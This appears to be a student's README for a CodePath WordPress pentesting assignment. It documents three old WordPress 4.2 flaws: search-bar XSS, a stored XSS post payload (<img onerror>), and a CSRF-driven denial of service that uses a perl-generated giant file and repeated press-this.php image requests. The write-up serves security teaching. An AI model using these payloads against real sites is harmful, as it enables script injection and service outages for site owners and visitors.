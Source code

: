 # Codepath-week7-assignment
this is the codepath week 7 assignment
# Project 7 - WordPress Pentesting

Time spent: **infinity** hours spent in total

> Objective: Find, analyze, recreate, and document **three vulnerabilities** affecting an old version of WordPress

## Pentesting Report

1. (Required) Vulnerability Name or ID
  - [x] Summary: XSS in Media
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.7.5
  - [x] GIF Walkthrough: https://github.com/mcp352/Codepath-week7-assignment/blob/master/268E5800-5A93-4B21-894F-FCF51EDDC791.GIF
  - [x] Steps to recreate: I NO JOKE FOUND THIS ONE MYSELF
  when you cant find a page there is a wordpress search bar for which you can type in almsot any XSS code and get it to run

1. (Required) Vulnerability Name or ID
  - [x] Summary: Post XSS
    - Vulnerability types:XSS
    - Tested in version:4.2
    - Fixed in version: 4.2.16
  - [x] GIF Walkthrough: https://github.com/mcp352/Codepath-week7-assignment/blob/master/26853F0C-8FF8-45CD-A293-118BEDE1A3D8.GIF
  - [x] Steps to recreate: be an admin on a wordpress site and make a new (malicious) post that contains <img src=a onerror=(1)>

1. (Required) Vulnerability Name or ID
  - [x] Summary: CSRF and a dash of XSS
    - Vulnerability types:CSRF
    - Tested in version:4.2
    - Fixed in version: 4.2.15
  - [ ] GIF Walkthrough: I would post a GIF walkthrough but I do not have an external server
  - [ ] Steps to recreate: On an external server, create a large text file with the command:
perl -e 'print "<>"x28000000' > foo.txt

Next, create a file called dos.html on the external server with enough entries to fill the connection pool of the WordPress server, as follows:
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=b'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=c'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=d'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=e'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=f'>
<img src='http://<wp server>/wp-admin/press-this.php?u=http%3A%2F%2F<external server>%2Ffoo.txt&url-scan-submit=Scan&a=g'>
[..]
(replace <wp server> with the WordPress server address and <external server> with the external server)

Now have a logged in admin visit dos.html. The server will be down for a while.
  Create a 20MB file called arbitrary_name<img src=x onerror=alert(1)>.png
  go to your wordpress site and drag-n-drop or use the selectfile button
  an error will appear and say exceeds max file upload size and show a prompt




## Resources


GIFs created with [SnagIt].

## License

    Copyright [2017] [Chase Pounders]

    Licensed under the Apache License, Version 2.0 (the "License");
    you may not use this file except in compliance with the License.
    You may obtain a copy of the License at

        http://www.apache.org/licenses/LICENSE-2.0

    Unless required by applicable law or agreed to in writing, software
    distributed under the License is distributed on an "AS IS" BASIS,
    WITHOUT WARRANTIES OR CONDITIONS OF ANY KIND, either express or implied.
    See the License for the specific language governing permissions and
    limitations under the License.
